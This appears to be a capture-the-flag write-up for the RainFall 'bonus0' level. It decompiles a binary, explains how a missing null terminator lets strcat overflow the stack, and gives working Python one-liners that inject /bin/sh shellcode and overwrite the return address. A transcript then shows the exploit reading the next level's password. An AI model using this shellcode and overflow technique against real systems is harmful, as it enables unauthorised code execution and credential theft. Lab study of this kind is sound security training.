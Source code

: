 ## Step 1: Static & Dynamic Analysis

```c
080484b4    char* p(char* buff, char* tild)
080484b4    {
080484b4        puts(tild);
080484e1        void tmp;
080484e1        read(0, &tmp, 4096);
080484fc        *(uint8_t*)strchr(&tmp, '\n') = 0;
0804851d        return strncpy(buff, &tmp, 20);
080484b4    }

0804851e    char* pp(char* str_main)
0804851e    {
0804851e        void buff_arg1;
08048534        p(&buff_arg1, " - ");
08048547        void buff_arg2;
08048547        p(&buff_arg2, " - ");
08048559        strcpy(str_main, &buff_arg1);
08048574        int32_t i = 0xffffffff;
08048577        char* str_main_ptr = str_main;
08048577        
08048579        while (i)
08048579        {
08048579            bool cond:0_1 = 0 != *(uint8_t*)str_main_ptr;
08048579            str_main_ptr = &str_main_ptr[1];
08048579            i -= 1;
08048579            
08048579            if (!cond:0_1)
08048579                break;
08048579        }
08048579        
08048588        *(uint16_t*)(~i - 1 + str_main) = 32;
080485a3        return strcat(str_main, &buff_arg2);
0804851e    }

080485a4    int32_t main(int32_t argc, char** argv, char** envp)
080485a4    {
080485a4        void str_main;
080485b4        pp(&str_main);
080485c0        puts(&str_main);
080485cb        return 0;
080485a4    }
```

### Explanation

The vulnerability in the binary comes from the lack of `NULL` terminated character when managing input buffers. 
The function `p()` reads data from stdin into a buffer using `read()` without checking its inputs length. 
The first 20 bytes are copied into the buffer however no NULL characters are set into the buffer if the size of the input is equal or greater than 20.
Next the `pp()` function concatenates both buffers using `strcat()` but since the first buffer is not NULL terminated, `strcat()` will continue to read memory past `buff_arg1`, causing the buffer overflow.
To proceed, we are first going to fill the first buffer with 20 characters 'A' followed by the shellcode.

```bash
python -c 'print(("A" * 20) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")'
```

Then, in the second input, we are going to use an offset of 9 characters 'B' to perfectly jump on the `eip` of the `main()` followed by the address of the first byte of the shellcode to jump on it and spawn a bash.

```bash
(gdb) x/16xw $esp
0xbfffe670:	0xbffff6b8	0xbfffe680	0x00000014	0x00000000
0xbfffe680:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe690:	0x41414141	0x6850c031	0x68732f2f	0x69622f68
0xbfffe6a0:	0x89e3896e	0xb0c289c1	0x3180cd0b	0x80cd40c0
```

```bash
python -c 'print(("B" * 9) + "\xbf\xff\xe6\x94"[::-1] + "CCCCCCC")'
```

## Step 2: Exploiting the Binary

```bash
bonus0@RainFall:~$ (python -c 'print(("A" * 20) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")' ; python -c 'print(("B" * 9) + "\xbf\xff\xe6\x94"[::-1] + "CCCCCCC")' ; cat) | /home/user/bonus0/bonus0

% cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```